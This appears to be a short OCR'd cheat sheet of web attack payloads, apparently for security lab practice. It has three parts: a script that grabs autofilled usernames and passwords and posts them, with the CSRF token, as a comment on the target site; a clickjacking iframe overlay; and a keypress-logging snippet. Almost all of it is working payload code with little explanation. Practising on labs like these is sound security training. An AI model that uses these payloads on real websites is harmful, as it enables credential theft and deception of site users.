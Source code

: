 ```
</script>
```

grabbing autofill passwords
```
<input type="text" name="username">
<input type="password" name="password" onchange="csrf()">

<script>
function csrf() {
var csrfToken = document.getElementsByName('csrf')[0].value;
var username = document.getElementsByName('username')[0].value;
var password = document.getElementsByName('password')[0].value;

var data = new FormData();
data.append('csrf', csrfToken);
data.append('postId', 6);
data.append('comment', `${username}:${password}`);
data.append('name', 'victim');
data.append('email', 'test@test.com');
data.append('website', 'https://test.com');

fetch('/post/comment', {
	method: 'POST',
	mode: 'no-cors',
	body: data
});
}
</script>
```

clickjacking
```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://cybercherney.github.io/"></iframe>
```

keylogging
```
document.onkeypress = function(e) {
 get = window.event ? event : e
 key = get.keyCode ? get.keyCode : get.charCode
 key = String.fromCharCode(key)
 console.log(key)
}
```
